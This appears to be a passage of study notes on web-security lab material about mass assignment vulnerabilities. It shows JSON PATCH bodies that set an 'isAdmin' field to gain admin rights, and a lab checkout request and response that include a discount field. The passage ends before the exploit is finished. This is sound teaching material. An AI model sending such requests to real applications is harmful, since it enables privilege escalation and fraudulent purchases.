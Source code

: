 

To test whether you can modify the enumerated isAdmin parameter value, add it to the PATCH request:
```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": false,
}
```
In addition, send a PATCH request with an invalid isAdmin parameter value:
```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": "foo",
}
```
If the application behaves differently, this may suggest that the invalid value impacts the query logic, but the valid value doesn't. This may indicate that the parameter can be successfully updated by the user.

You can then send a PATCH request with the isAdmin parameter value set to true, to try and exploit the vulnerability:
```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": true,
}
```
If the isAdmin value in the request is bound to the user object without adequate validation and sanitization, the user wiener may be incorrectly granted admin privileges. To determine whether this is the case, browse the application as wiener to see whether you can access admin functionality. 

### Lab: Exploiting a mass assignment vulnerability
To solve the lab, find and exploit a mass assignment vulnerability to buy a Lightweight l33t Leather Jacket. You can log in to your own account using the following credentials: wiener:peter. 

This request return:
```
GET /api/checkout HTTP/2
Host: 0a9700660349645882ae5116000e0016.web-security-academy.net
Cookie: session=pcPAW0nq3XAZF9iRWfMt0pRPYFboS8Uf
```
```json
{
    "chosen_discount":{
        "percentage":0
        },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket",
                "quantity":1,
                "item_price":133700
            }
        ]
}
```
